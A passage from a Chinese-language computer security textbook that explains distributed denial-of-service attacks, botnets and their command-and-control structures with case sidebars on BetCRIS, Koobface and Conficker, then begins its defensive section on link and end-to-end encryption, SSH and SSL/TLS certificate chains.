
---

要发起**分布式拒绝服务**（或 **DDoS**）攻击，攻击者需做两件事，如图 6-34 所示。在第一阶段，攻击者想要征召一支由受感染机器组成的“大军”来攻击受害者。利用任何方便的攻击手段（如利用缓冲区溢出或诱骗用户打开并安装来自电子邮件附件的未知代码），主谋在远程机器上植入特洛伊木马。该特洛伊木马不一定会对受感染机器造成任何明显损害；事实上，机器需要保持健康（并保持感染状态），以便参与针对真正受害者的攻击。外来代码文件可能以流行编辑器或实用程序命名，绑定到标准操作系统服务，或被加入启动时激活的进程（守护进程）列表中。无论它如何潜伏在系统中，都不太可能引起任何注意。


**图 6-34** 分布式拒绝服务攻击

攻击者对许多目标计算机重复此过程。这些受感染系统中的每一个随后都成为所谓的**僵尸机（zombie）**。目标系统的用户照常开展工作，却不知驻留着僵尸程序。许多当前的漏洞攻击会将代码下载到受感染机器上，将其变成僵尸机。

在某个时刻，攻击者会选择一个受害者，并向所有僵尸主机发送信号以发起攻击。此时，受害者不再是试图抵御来自单个恶意主机的拒绝服务攻击，而必须尝试同时应对来自许多僵尸主机的攻击。并非所有僵尸主机都需要使用相同的攻击方式；例如，有些可能使用 Smurf 攻击，而另一些则可能使用 SYN 洪水攻击，以针对不同的潜在弱点。

#### 脚本化拒绝服务攻击

除了其巨大的放大效应外，分布式拒绝服务攻击之所以是一个严重的问题，是因为它们可以通过脚本轻松发起。给定一组拒绝服务攻击和一种传播方法，人们可以轻松编写一个过程来植入特洛伊木马，该木马可以发起任何或所有的拒绝服务攻击。DDoS 攻击工具最早出现于 1999 年中。一些最初的 DDoS 工具包括部落洪水网络（TFN）、Trin00 和 TFN2K（部落洪水网络，2000 年版）。随着允许植入特洛伊木马的新漏洞被发现，以及新的拒绝服务攻击被找到，新的组合工具也随之出现。有关此主题的更多详细信息，请参阅 [HAN00]。

根据美国计算机应急响应小组（CERT）[HOU01b] 的报告，扫描以查找易受攻击的主机（潜在僵尸主机）现在已被包含在组合工具中；单个工具现在可以识别其僵尸主机、安装特洛伊木马，并激活僵尸主机以等待攻击信号。赛门铁克 [SYM10] 确认，漏洞利用包现在包含将受损系统变为僵尸主机的代码。最近的目标（僵尸主机）选择主要是随机的，这意味着攻击者似乎不在乎感染哪些僵尸主机。这一发现实际上是个坏消息，因为这意味着没有任何组织或可访问的主机能免受攻击。也许是因为 Windows 机器数量众多，且其用户被认为在计算机管理和保护方面知识较少，基于 Windows 的机器正成为比其他系统更受欢迎的攻击目标。最令人恐惧的是我们已经提出的发现：漏洞被发现与其被广泛利用之间的时间间隔正在缩短。

***

**为了增强攻击而被利用的僵尸主机，是通过扫描随机计算机的未修补漏洞来定位的。**

***

Sidebar 6-20 描述了一个拥有更强火力的攻击者的例子。这场战斗不是一对一，而是多对一：攻击者调动了一支代理大军，从各个方向同时发起攻击。Sidebar 中遇到的攻击正好发生在攻击社区进阶到一种新的攻击模式之时。调查人员了解普通的拒绝服务攻击；但他起初不理解的是分布式拒绝服务攻击，在这种攻击中，影响力因众多攻击者的力量而成倍放大。

***

##### Sidebar 6-20 遭遇大军攻击

Barrett Lyon 是一名大学辍学生、黑客转型的计算机顾问，拥有非凡的专注力和技术敏锐度。因帮助一位客户扩展并稳定 Web 应用网络，他获得了推荐，进而带来更多推荐。

在线博彩公司 BetCRIS 长期遭受偶发攻击困扰，导致其网站瘫痪长达一天，期间投注者无法下注，BetCRIS 因此每天损失高达 500 万美元业务。2003 年春季，BetCRIS 负责人收到一封来自匿名黑客的电子邮件，警告称除非支付 500 美元，否则将对 BetCRIS 发动拒绝服务攻击。支付后，BetCRIS 经理向同事寻求推荐并联系 Lyon 寻求建议。Lyon 建议购买一些专门用于抵御此类攻击的硬件设备；BetCRIS 经理安装了它们，并对未来感到安心。

11 月下旬，BetCRIS 收到另一项勒索：一封电子邮件宣称“您的网站正遭受攻击”，并要求支付 4 万美元以让 BetCRIS 安宁一年。认为 Lyon 推荐的解决方案已足够，BetCRIS 经理置之不理。

大规模拒绝服务攻击在十分钟内压垮了专用设备，导致 BetCRIS 网站崩溃；该攻击还淹没了 BetCRIS 的 ISP，后者为保护其他客户而终止了 BetCRIS 的客户资格。随着攻击升级，勒索金额升至 6 万美元，最终达到 100 万美元。在此期间，Lyon 意识到这不是从几台机器发起的普通拒绝服务攻击，而是涉及数百台、甚至数千台机器的攻击。

Lyon 知道这些攻击必有相似之处。他寻找相近的 IP 地址以便封锁整个范围，但发现很少。一些攻击针对路由器，而另一些则伪装成正常客户。Lyon 迅速编写代码封锁可识别的攻击，并购买设备自建 ISP 以服务 BetCRIS。与此同时，攻击者转而针对在线博彩社区中 BetCRIS 的商业邻居，以及 BetCRIS 以前的 ISP。经过数天的拉锯战，Lyon 获胜：BetCRIS 网站恢复上线，运行稳定，性能正常。

总而言之，这场战役耗资约 100 万美元，正好是攻击者想要勒索的金额。在战斗中，Lyon 深入了解了一种 2003 年刚刚出现的新型攻击形式——分布式拒绝服务攻击 [MEN10]。

***

#### 僵尸程序

当需要武力时，调动大军。在此情境下，我们所指的大军是一个由受损机器组成的网络，它们已准备好、愿意且能够协助攻击。然而，与真正的士兵不同，这些机器及其所有者都不知道自己是攻击的一部分。

僵尸主机（或 `bots`，即机器人的黑客术语）是运行在远程控制下的恶意代码片段的机器。这些代码对象是分发给大量受害者机器的特洛伊木马。因为它们可能不干扰或损害用户的计算机（除消耗计算和网络资源外），所以往往不被察觉。

#### 僵尸网络


# 僵尸网络

**僵尸网络**，即僵尸程序的网络，被用于大规模拒绝服务攻击，由许多站点并行针对受害者实施。它们也被用于垃圾邮件和其他批量邮件攻击，因为来自任何单一点的超大量邮件可能会被发送服务提供商拦截。Sidebar 6-21 描述了一个僵尸网络操作的示例。

***

## Sidebar 6-21 僵尸网络操作与清除

Koobface 僵尸网络在 2009 年 6 月至 2010 年 6 月期间通过销售虚假杀毒代码（如第 4 章所述）获利超过 200 万美元。Koobface（系 Facebook 的变位词）由受损系统组成，其中许多是通过 Facebook 连接感染的。一旦机器被感染，它会向用户的 Facebook 好友发送消息，建议他们购买并安装（虚假的）杀毒代码，从而通过社交网络扩大僵尸网络。它还会成为按点击付费和按安装付费页面的宿主。

安全研究人员 Villeneuve [VIL10] 研究了 Koobface 的命令与控制结构。它采用拉取模式运行，即单个僵尸程序定期联系命令服务器以获取更多任务。命令服务器会将一些僵尸程序转换为代理，供其他僵尸程序联系，因此只有极少数僵尸程序——仅代理——拥有真实服务器的地址。命令服务器还掌握了大多数杀毒软件厂商和商业安全研究公司的 IP 地址，并会阻止来自这些地址的任何连接，以挫败研究人员与服务器交互的尝试。

Villeneuve 描述了为刑事起诉而调查 Koobface 的困难。僵尸网络往往是跨国实体，在许多国家都有组件，因此由于不同的法律、证据标准、调查实践和司法结构，使起诉变得复杂。僵尸网络的关键要素使用对犯罪友好的托管服务，这些服务保护其客户免受滥用投诉和下架请求。因此，执法官员和网络安全管理员都难以对主要僵尸网络采取行动。

在此实例中，Villeneuve 和他在多伦多安全公司 SecDev 的同事与英国 ISP Coreix 及其他机构合作，于 2010 年 11 月关闭了 Koobface 的三个主要命令与控制服务器。Villeneuve 通过监控其向莫斯科四个电话号码的消息传递，渗透了其中一台服务器。

即使此举不能完全瘫痪 Koobface，但肯定会减缓其运作。此外，分析还揭示了其他服务器，专家可监控这些服务器以查看 Koobface 的操控者还试图在何处建立基地。

***

## 僵尸网络命令与控制更新

就像常规军队一样，僵尸网络需要指挥层级；僵尸程序需要军官告诉它们何时攻击、攻击谁以及使用什么武器。僵尸网络总部称为 **命令与控制中心**。此类军队的基本结构如 图 6-35 所示。幕后主使希望与实际配置隔离，以降低被发现的可能性。此外，万一部分军队被隔离并摧毁，攻击者希望有冗余以便重组，因此攻击者构建了冗余。攻击者控制一个或多个主控制器，以建立命令与控制中心。


**图 6-35** 僵尸网络命令与控制结构

***

**僵尸网络命令与控制中心指示特定机器在给定时间和持续时间内针对特定受害者发起攻击。**

***

命令与控制中心控制各个僵尸程序，告诉它们何时开始和停止针对哪个受害者的攻击。从命令与控制中心到僵尸程序的通信可以是 **推送** 模式，即中心向僵尸程序发送指令；也可以是 **拉取** 模式，即每个僵尸程序负责定期呼叫控制器以确定是否有工作要做。为了避免被发现，主控制者会频繁更换命令与控制中心，对于这种情况推送模式更有效，因为各个僵尸程序不必被告知新命令与控制计算机的地址。

僵尸程序通过普通网络通道相互协调并与其主控制器协调，例如互联网中继聊天（`IRC`）频道、点对点网络（曾用于在互联网上共享音乐）或其他网络协议（包括 `HTTP`）。僵尸网络作为一个松散协调的网络结构，不受任何单个僵尸程序或僵尸程序组故障的影响，并且拥有多个通信和协调渠道，因此具有高度弹性。所有这些命令与控制活动都必须隐蔽地进行，以免引起网络管理员的注意或被禁用，如 侧边栏 6-22 所述。

***

## 侧边栏 6-22 命令与控制隐身技术

Conficker 在 第 3 章 中介绍，是一种特别狡猾的恶意软件，自 2008 年底首次出现以来已感染数百万台机器。它依赖典型的僵尸网络与命令与控制服务器，但其使用隐身技术和加密来保护其网络的手段非常复杂。

命令与控制站点使用 512 位 `RSA` 加密和 `MD4` 哈希来签名下载到受感染机器的代码。机器验证签名；如果签名不匹配，机器将丢弃下载。每个 Conficker 主机使用当前日期作为种子生成一组随机域名，称为汇合点，然后轮询这些域名以尝试查找命令。通过这种方式，命令与控制服务器每天都在移动，分析师无法预测服务器将移动到哪些地址，这意味着分析师无法提前阻止访问这些地址。

直到 Porras 及其团队分析了 Conficker：他们破解了 Conficker 的代码并提前确定了地址列表 [POR09]。阻止这些地址有效地遏制了 Conficker 的传播。只是在 2009 年 3 月 15 日，有一个站点名称错误地未被阻止，Conficker 僵尸程序再次能够联系命令服务器进行更新。不幸的是，该更新让 Conficker 重获新生。

更新后的 Conficker 随机选择 500 个域名，但在名称后附加 116 个后缀或顶级域名之一，如 `.com`、`.edu`、`.org`，以及国家代码如 `.us`、`.fr`、`.cz`、`.br`、`.ru`。这些国家代码域名后缀由各个国家控制，因此获得关闭这些域名的许可在行政上比关闭 `.com` 地址更困难。然而，这些域名似乎是一个红鲱鱼，旨在欺骗并可能占用分析师的精力。

在 2009 年 3 月 15 日代码更新后不久，Conficker 完全改变了其代码更新模型：不再由每个僵尸程序从中央命令与控制服务器获取更新，而是通过点对点网络策略在彼此之间通信更新。在数百万个通信的 Conficker 僵尸程序中找出哪些拥有最新代码版本，对研究人员来说是一个无望的任务。

2008 年 12 月底出现的版本使用了一种新的哈希函数 `MD6`，该函数于 2008 年 10 月刚在 Ron Rivest 的 MIT 网站上发布，作为美国国家标准与技术研究院（`NIST`）新安全哈希标准的候选算法。因此，大约在两个月的时间里，Conficker 的作者注意到了这种新算法的发布并将其纳入 Conficker 的演进开发中。即使分析师能够逆向工程代码以确定其操作方式，他们也无法制作所谓的免疫包（即会导致受 Conficker 感染的系统清除感染的修改代码），因为他们无法使代码具有正确的加密校验和。

自 2008 年以来又出现了三个主要版本。Conficker 的作者表现出了韧性和足智多谋，抵消了各种根除它的尝试。其主要目标似乎是持久性，保持活跃以便传播并扩散其有效载荷。其最新版本（E）携带 Waladec 垃圾邮件僵尸程序，还有一个杀毒恐吓软件代理。

***

## 租用僵尸网络

将机器感染并转变为僵尸程序的人称为 **僵尸网络主控制者**。一个僵尸网络主控制者可能拥有（即控制）数百或数千个僵尸程序。由于受感染的机器属于不知情的用户，他们确实将这些机器用于真正的计算，因此这些僵尸程序并不总是可用的。有时真正的所有者会关闭机器、将其从互联网断开，或密集使用它们以至于几乎没有剩余容量充当僵尸程序。然而，大多数时间这些机器处于闲置状态，随时可用于恶意工作。

僵尸网络主控制者通常有两种用途：首先，当主控制者想要攻击受害者时，僵尸网络应可用。正如本章前面的侧边栏所述，攻击可能持续数小时。然而，拒绝服务活动倾向于有针对性而非随机，因此一个主控制者不太可能拥有无限数量的受害者来指挥僵尸程序攻击。因此，为了获得一些收入，主控制者有时也会将其僵尸网络出租给他人。研究员 Dancho Danchev [DAN13] 报告称，2013 年，包含 1,000 个主机的僵尸网络租金为 25–120 美元，包含 10,000 个主机的僵尸网络 24 小时租金为 200–500 美元。

***

**僵尸网络运营者通过出租被攻陷的主机用于 DDoS 或其他活动来获利。租金几乎全是利润。**

***

## 自愿加入的僵尸网络

有支持的事业吗？想抗议 `[name your outrage]` 却担心孤掌难鸣？加入一群志同道合的人，发起分布式拒绝服务攻击来抗议该暴行。

是的，现在有招募志同道合者共同抗议的帖子。你下载并安装攻击脚本，于周二上午 11:00 (GMT) 到场，将你的攻击计算机指向 `*x*.com` 以示抗议。想加入就加入，你（或你的电脑）累了就退出。加入运动吧！唯一缺少的就是示威后的披萨派对。抱歉，那得你自己买单。

## 恶意自主移动代理

Bot 属于一类更广泛被称为 **恶意自主移动代理** 的代码。这些程序主要自主运行，能感染其能访问的任何计算机，导致拒绝服务以及其他类型的危害。当然，代码不会自行开发、出现或变异；最初必须有开发者参与以启动该过程，通常还要建立一套更新机制。这种代理有时被称为 **接种代理**。

随着 Bot 或代理的执行与更新获取，并非每个代理都会同时更新。某个代理可能处于关机系统上，另一个可能处于当前无外部网络连接的系统上，还有一个可能运行在受限资源域中。因此，随着代理与其更新服务间歇性联系，有些将是最新版，而另一些将运行旧版本。协调这支参差不齐的代理大军的问题，是一个基于拜占庭将军问题 [LAM82] 的活跃研究课题。

## 自主移动防护代理

假设安全工程师破解了某代理的逻辑；该工程师或许能招募该代理为正义一方效力，通过修改使其在同类面前显得正常，实则传播反向感染代码。例如，修改后的代理可能会寻找其他敌对代理，并传递一个实际上能禁用它们的“更新”。

这一概念并非听起来那样异想天开。正如攻击者开发网络造成危害一样，安全研究者也假设过善意代理如何在恶意代码感染后帮助修复。

德国少年斯文·亚申 (Sven Jaschen) 编写并发布了名为 NetSky 的蠕虫，时间是 2004 年 2 月。他声称初衷是通过关闭 MyDoom 和 Bagle 蠕虫利用的漏洞，来清除受感染计算机中这两种广泛传播的蠕虫。NetSky 通过电子邮件传播。然而，亚申很快便与 Bagle 和 MyDoom 的创作者陷入对抗，对方推出了更优版本的代码，进而催生了新版 NetSky，如此往复，共衍生出 30 个独立的 NetSky 变种。据安全专家、F-Secure 的 Mikko Hypponen 称，NetSky 在减少垃圾邮件流量方面，比美国国会或法院采取的任何行动都更有效。遗憾的是，它也消耗了大量系统资源，并向众多商业客户发送了海量邮件。后期版本甚至对亚申不喜欢的地点发起了拒绝服务攻击。据安全公司 Sophos 称，发布两年后，它仍是全球最流行的病毒感染 [SOP04]。

在发布 NetSky 两个月后，恰逢他 18 岁生日，亚申编写并发布了一个极具破坏性的基于互联网的病毒 Sasser，导致计算机不断重启。他被德国当局逮捕，并被判处 31 个月缓刑及三年缓刑期。

## 应对 DDoS 攻击

从理论上讲，DDoS 攻击并不难预防。大多数 Bot 利用的是已知漏洞被征用，这些漏洞的补丁早已发布。因此，如果全世界都能及时安装补丁，DDoS 威胁就会减弱。然而，一些计算机用户没有合法的操作系统和其他软件副本，因此无法通过厂商渠道订阅和获取补丁。计算机软件是少数几种黑市也会影响合法消费者的商品之一，其他此类商品还包括非法枪支和违禁毒品。DDoS 攻击让一些有才华的程序员和分析师陷入了一场有利可图的博弈：在陈旧平庸的缺陷周围精心构建复杂的防护盾。在我们根除这些缺陷之前，其周围的任何防护都无法改善。这就是理论与实践的交汇点。

***

**Bot 通过利用漏洞（通常是已知漏洞）被代理强行征用。可通过扫描发现易受攻击的机器。**

***

管理员可以通过调优（调整活动服务器数量）、负载均衡（在可用服务器间均衡计算负载）、冷遇（降低对特定地址范围流量的服务质量）和黑名单（拒绝来自特定地址的连接）等技术来应对普通 DoS 攻击。这些相同的技术也用于应对 DDoS 攻击，只是应用规模更大、部署在网络边界。到目前为止，大多数 DDoS 攻击似乎都是为了表达立场或引起关注，因此持续一段时间后，攻击者认为目的已达成便会停手。一些攻击（如 Sidebar 6-20 所述）旨在向受害者勒索钱财；与其他勒索攻击一样，支付赎金未必能制止攻击。

关于拒绝服务的讨论至此结束，这也标志着我们对联网计算所面临威胁的考察告一段落。拒绝服务是一个独特的问题，需要专门的对策。涉及拦截和篡改的其他网络攻击则采用更为人熟知的控制手段。

此攻击也是我们对计算机网络安全威胁与脆弱性分析的最后一环。本部分涵盖了 CIA 三要素的所有三个方面：窃听和伪装（针对机密性的攻击）、数据损坏和重放（完整性）、拒绝服务（可用性）。WiFi 网络一节展示了可能导致这三者均失效的漏洞。该节还表明，即使是精心制定的标准也可能存在严重的安全缺陷。

此时你可能会得出结论：网络安全威胁与脆弱性的数量、广度和严重性令人绝望：应对所有问题似乎不可能。请记住，本章第一部分提出威胁，而即将到来的第二部分将展示防御者的对策武器库。切勿灰心；增援已在路上。

不过，你的担忧有据可依。正如安全的许多其他方面一样，攻防双方在玩猫鼠游戏：进攻方创造新攻击（可能是旧攻击的变种），防守方做出响应。防守常常处于追赶状态，意味着许多防御行动是对进攻举动的回应。幸运的是，研究人员和开发人员仍在不断寻找阻止攻击者的新方法。

我们现在开始探讨计算机网络的防护措施。

# 第二部分——战略防御：安全对策

## 6.6 网络安全中的密码学

回顾 第 2 章，加密主要分为两大类：对称（密钥）系统和非对称（公钥）系统。前者是密码学的主力军，用于大量数据的批量加密。这一描述完美契合网络流量，这也是其确切的使用方式。第二类密码算法擅长在可能没有预先建立关系的双方之间建立可信关系，这在网络环境中也自然适用。在本节中，我们将描述这两种方法如何为网络提供安全强度。

### 网络加密

加密可能是网络安全专家最重要且最通用的工具。我们在前几章中已经看到，加密在提供隐私性、真实性、完整性和隔离性方面非常强大。因为网络涉及更大的风险，它们通常使用加密来保护数据，或许还会结合其他控制手段。

在开始研究利用加密来应对网络安全威胁之前，让我们强调四点。

- 加密仅保护被加密的内容（这显而易见但常被忽视）。请认识到，数据在用户指尖与加密过程之间、传输之前是暴露的，在远程端解密后又会再次暴露。最好的加密也无法防范在加密点之前拦截数据的恶意木马程序。
- 设计加密算法最好留给专业人士。密码学充满了微妙之处，看似微小的变化可能对安全性产生重大影响。
- 加密的安全性不超过其密钥管理的安全性。如果攻击者能够猜测或推断出薄弱的加密密钥，大局已定。
- 加密不是万能药或灵丹妙药。带有加密的缺陷系统设计，仍然是缺陷系统设计。不理解加密的人有时会误以为它是仙女粉，洒在系统上就能获得神奇的保护。如果真有这种仙女粉，就不需要这本书了。

在网络应用中，加密可以应用于两台主机之间（称为**链路加密**），也可以应用于两个应用程序之间（称为**端到端加密**）。我们将在下文中探讨这两种形式。无论采用哪种形式的加密，密钥分发始终是一个问题。加密密钥必须以安全的方式分发给发送方和接收方。在本章后面的章节中，我们还将研究网络中安全密钥分发的技术。最后，我们将研究网络计算环境的密码学设施。

#### 网络加密模式

加密可以通过两种通用模式在网络中使用：链路加密和端到端加密。它们执行不同的功能，具有不同的优缺点。甚至可以将它们一起使用，即使这在一定程度上是冗余的。

##### 链路加密

在**链路加密**中，数据在系统将其放置到物理通信链路上之前进行加密。在这种情况下，加密发生在 OSI 模型的第 1 层或第 2 层。（TCP/IP 协议也存在类似情况，其分层模型类似但更短。）同样，解密发生在通信到达并进入接收计算机时。图 6-36 展示了链路加密的模型。正如你所见，数据以明文形式通过模型的顶层传输，直到传输前在第 1 层进行加密。寻址发生在第 3 层。因此，在中间节点，必须移除加密以确定下一步将数据转发到何处，因此内容会暴露。


**图 6-36** 链路加密模型

***

**链路加密覆盖从路径上一个节点到下一个节点的通信。**

***

加密保护两台计算机之间传输中的消息，但消息在主机内部是明文状态。（明文消息被称为“在明文中”。）请注意，因为加密是在底层协议层添加的，所以消息在发送方和接收方的所有其他层中都是暴露的。如果我们有良好的物理安全性，并且信任实现上层功能的软件，我们可能不太担心这种潜在漏洞。消息在所有中间主机的两层中均可被访问。消息在中间主机中是明文的，而这些主机中的某一个可能并不特别可信。

链路加密对用户是不可见的。加密成为由低级网络协议层执行的传输服务，就像消息路由或传输错误检测一样。图 6-37 展示了一个典型的链路加密消息，阴影字段为加密部分。因为部分数据链路头部和尾部是在分组加密之前应用的，所以这些分组的每一部分都被着色。当消息 `M` 在每一层被处理时，发送方添加头部和控制信息，接收方移除它们。硬件加密设备运行快速可靠；在这种情况下，链路加密对操作系统和操作员都是不可见的。


**图 6-37** 链路加密

当传输线路是最大漏洞点时，链路加密尤为合适。如果网络上的所有主机都相对安全，但通信介质与其他用户共享或不安全，链路加密是一种易于使用的控制手段。当单条链路上的所有通信都应受到保护时，链路加密也是可取的，例如，如果链路连接一家公司的两个办公室，所有内部通信都将受到保护。

##### 端到端加密

顾名思义，**端到端加密**提供从传输一端到另一端的安全性。加密可以通过硬件设备应用于用户和主机之间。或者，加密可以由运行在主机计算机上的软件完成。无论哪种情况，加密都在最高层执行，通常由 OSI 第 7 层的应用程序执行，有时也在第 5 层或第 6 层。图 6-38 展示了端到端加密的模型。


**图 6-38** 应用层（端到端）加密

因为加密先于该层的所有路由和传输处理，所以消息在整个网络中以加密形式传输。当然，只有消息的数据部分受到保护，但通常报头不像数据那样敏感。加密解决了传输模型中较低层潜在的缺陷。如果较低层未能保持安全并泄露了它接收到的数据，数据的机密性也不会受到威胁。图 6-39 显示了一个典型的端到端加密消息，加密字段再次用阴影标出。


**图 6-39** 端到端加密

***


端到端加密覆盖从源到目的地的通信。

***

当使用端到端加密时，通过多个主机发送的消息受到保护。消息的数据内容仍然是加密的，如图 6-40 所示，消息在传输过程中是加密的（防止泄露）。因此，即使消息必须在 A 和 B 之间的路径上通过潜在不安全的节点（如 C 到 F），消息在传输过程中也受到保护，防止泄露。


**图 6-40** 传输中受保护的消息

### 加密方法比较

仅仅加密消息并不能绝对保证它在传输期间或之后不会被泄露。然而在许多情况下，加密强度提供了足够的保护，这取决于拦截者破解加密的可能性和消息的时效性。与安全的许多方面一样，我们必须在保护强度与攻击可能性之间取得平衡。

使用链路模式时，特定链路上的所有传输都受到保护。通常，给定主机只有一个进入网络的链路，这意味着在该主机上发起的所有网络流量都将为该主机加密。但这种加密方案意味着接收这些通信的每个其他主机也必须具有加密设施来解密消息。此外，所有主机必须共享密钥。消息在通往最终目的地的途中可能会经过一个或多个中间主机。如果消息在网络的某些链路上加密而在其他链路上不加密，则部分加密优势就会丧失。因此，如果执行链路加密，通常会在网络的所有链路上执行。

相比之下，端到端加密应用于“逻辑链路”，即两个进程之间的虚拟通道，其层级远高于物理路径。由于传输路径上的中间主机不需要加密或解密消息，因此它们不需要加密设施。因此，加密仅用于需要它的那些消息和应用程序。此外，加密可以通过软件完成，因此我们可以有选择地应用它，一次一个应用程序，甚至一个给定应用程序中的一条消息。

端到端加密的选择性优势在加密密钥方面也是一个劣势。在端到端加密下，每对用户之间都存在一个虚拟加密通道。为了提供适当的安全性，每对用户应该共享一个唯一的加密密钥。因此所需的密钥数量等于用户对的数量，对于 `n` 个用户，该数量为 `n * (n – 1)/2`。随着用户数量的增加，这个数字会迅速增加。

如表 6-3 所示，链路加密更快、对用户更容易，且使用的密钥更少。端到端加密更灵活、可选择性使用、在用户级完成，并可与应用程序集成。没有一种形式适用于所有情况。


**表 6-3** 链路加密和端到端加密的比较

在某些情况下，可以同时应用这两种加密形式。不信任系统提供的链路加密质量的用户也可以应用端到端加密。担心应用程序应用的端到端加密方案安全性的系统管理员也可以安装链路加密设备。如果两种加密都相对较快，这种安全性的重复几乎没有负面影响。

链路级加密特别适合利用公共资源实现专用网络。下一节将介绍的虚拟专用网络是一种在公共网络中提供隐私的技术。

#### 浏览器加密

浏览器可以加密数据以在传输期间进行保护。浏览器和服务器协商一个通用的加密密钥，因此即使攻击者在 `TCP` 或 `IP` 协议级别劫持了会话，攻击者由于没有正确的密钥，也无法加入应用程序数据交换。

##### SSH 加密

**SSH**（安全外壳）是一对协议（版本 1 和 2），最初为 Unix 定义，但现在大多数操作系统下都可用。SSH 为 Shell 或操作系统命令解释器提供经过身份验证和加密的路径。两个 SSH 版本都取代了用于远程访问的 Unix 实用程序，如 `Telnet`、`rlogin` 和 `rsh`。SSH 可防止欺骗攻击和通信中数据的修改。

SSH 协议涉及本地和远程站点之间就加密算法（例如 `DES` 或 `AES`）和身份验证（包括公钥和 `Kerberos`）进行协商。

2008 年，一组英国研究人员 [[ALB09]](#bib01.html#bib_08) 设计了一种攻击，在特定情况下他们可以从 SSH 会话中恢复 32 位数据。虽然 32 位数据的泄露很重要，但英国国家基础设施保护中心将成功攻击的可能性评为低，因为成功攻击需要特定条件。尽管如此，你应该注意该协议确实存在已知漏洞。

##### SSL 和 TLS 加密

**安全套接字层（SSL）**协议最初由 Netscape 在 1990 年代中期设计，用于保护 Web 浏览器和服务器之间的通信。它经历了三个版本：`SSL 1.0`（私有）、`SSL 2.0`（1995 年）和 `SSL 3.0`（1996 年）。1999 年，互联网工程任务组升级了 `SSL 3.0` 并将其命名为 **TLS**，即 **传输层安全**。`TLS 1.0`（有时也称为 `SSL 3.1`）记录在互联网 RFC 2246 中；两个更新的版本分别称为 `TLS 1.1`（RFC 4346，2006 年）和 `TLS 1.2`（RFC 5246，2008 年）。首字母缩写词 SSL 常用于代表 SSL 和 TLS 协议套件。

在 OSI 网络模型中，应用程序运行在最高级别（离电信号最远），称为第 7 层，而 SSL 实现在第 4 层，高于网络寻址（第 3 层）和物理介质（第 1 层）。SSL 在应用程序（如浏览器）和 `TCP/IP` 协议之间运行，以提供服务器身份验证、可选的客户端身份验证，以及客户端和服务器之间的加密通信通道。

***

**SSL 加密覆盖浏览器和远程 Web 主机之间的通信。**

***

###### 密码套件

客户端和服务端协商用于认证、会话加密和哈希的加密算法，称为**密码套件**。为了允许算法随时间推移进行扩展和弃用，首先发起交互的一方（通常是客户端）声明其首选算法，第二方则从该列表中选择其能够处理的最高优先级算法进行响应。互联网号码分配局（IANA）在全球范围内协调 DNS 根区、IP 地址分配和其他互联网协议资源，包括密码套件；我们在表 6-4 中展示了一些可选项。当客户端和服务端开始 SSL 会话时，服务端发送一组记录，列出其可使用的密码套件标识符；客户端则从该集合中响应其首选选择。正如表中所示，SSL 支持使用我们深入描述过的流行加密算法，例如 `RSA`、三重 `DES` 和 `AES`；IANA 还批准使用 `Camellia` 和 `Aria` 等算法，这些算法在某些国家更为常用。(`Camellia` 和 `Aria` 是类似于 `DES` 和 `AES` 的分组密码；`Camellia` 由三菱和 NTT 于 2000 年设计，`Aria` 由韩国密码学家于 2003 年开发。椭圆曲线密码系统是一种公钥密码学；我们将在第 12 章中更详细地描述它们。)


**表 6-4** 密码套件（部分列表）

SSL 协议简单但有效，是互联网上使用最广泛的安全通信协议。（但请注意，研究人员利用 `MD5` 算法中的缺陷，能够伪造一个看似有效的证书用于 SSL。针对 `TLS 1.2` 还存在一种明文注入攻击，编号为 `CVE-2009-3555`。该缺陷涉及服务端的修复，因此许多 Web 应用服务都需要进行修正。）

###### SSL 会话

由于 SSL 常用于网页，因此常被称为 `HTTPS`（HTTP Secure），你会在浏览器地址栏看到 `https:` 前缀，以及在 SSL 运行时角落里出现的关闭的挂锁图标。要使用 SSL，客户端请求一个 SSL 会话。服务端响应其公钥证书，以便客户端确定服务端的真实性。客户端返回一个用服务端公钥加密的对称会话密钥。服务端和客户端均计算出会话密钥，然后切换到加密通信，使用共享的会话密钥。

SSL 会话建立后，可以查看会话的详细信息。例如，图 6-41 显示了一个与 `https:login.yahoo.com` 建立的 SSL 连接。


**图 6-41** SSL 会话已建立

图 6-42 中显示的该会话详细信息表明，基于雅虎提供的证书建立了一个加密会话。该证书由认证机构 `DigiCert` 签名。


**图 6-42** 所用 SSL 证书

在图 6-43 中，你可以看到完整的证书和签名者链，从 `GTE CyberTrust` 根证书开始，一直到雅虎证书。该图还显示了签署证书所用加密算法（`RSA`）的详细信息。


**图 6-43** 证书链

证书和签名者链之所以重要，是因为存在**不道德的 CA** 的可能性。如果你检查浏览器中预加载的 CA 证书集合，很可能会发现来自世界各地的熟悉和陌生的组织名称。这些 CA 中的任何一个都可以为另一个较低级别的证书颁发机构签署证书，依此类推，直到参与 SSL 会话的单个组织。例如，如果攻击者想建立一个假冒银行网站，让一个不道德的 CA 为 SSL 颁发证书，会增加该网站的表面可信度，而不一定提供安全性。

最后，在图 6-44 中，你可以看到 `DigiCert` 根证书是由 `GTE CyberTrust Solutions` 颁发的。其他字段包括有效期、使用的算法、颁发日期和联系详情。因此，感兴趣的用户可以比较从受信任根开始的完整证书和签名链。


**图 6-44** 根证书

尽管预加载的证书颁发机构是信誉良好的，但如果其中一个为一个不太光彩的公司签署证书，SSL 操作仍会成功。SSL 要求来自浏览器列表中 CA 的证书链，但对浏览器而言，所有这些 CA 都具有同等的可信度。这就是为什么你应该检查你加载的证书集合，以确保你会信任它们中任何一个签署的任何内容。

SSL 协议简单但有效，是互联网上使用最广泛的安全通信协议。然而，请记住，SSL 仅保护从客户端浏览器到服务端解密点的数据（这通常仅到达服务端的防火墙，或者稍强一些，到达运行 Web 应用程序的计算机）。数据从用户键盘到浏览器，以及在接收方环境中始终是暴露的。请记住我们在第 4 章中描述的击键记录器和中间人浏览器攻击的漏洞。`Blue Gem Security` 开发了一款名为 `LocalSSL` 的产品，它从数据被输入时起进行加密，直到操作系统将其传递给客户端浏览器，从而挫败任何已植入用户计算机、旨在窃取用户输入内容的键盘记录木马。

***

**SSL 加密仅保护从浏览器到目标解密点的数据。加密前或解密后的漏洞不受影响。**

***

###### 洋葱路由

正如我们所描述的链路加密和端到端加密，通信的数据部分为保密性得到了保护。然而，寻址数据却是暴露的。因此，监控 A 点和 B 点之间流量的人会知道通信的流量大小。

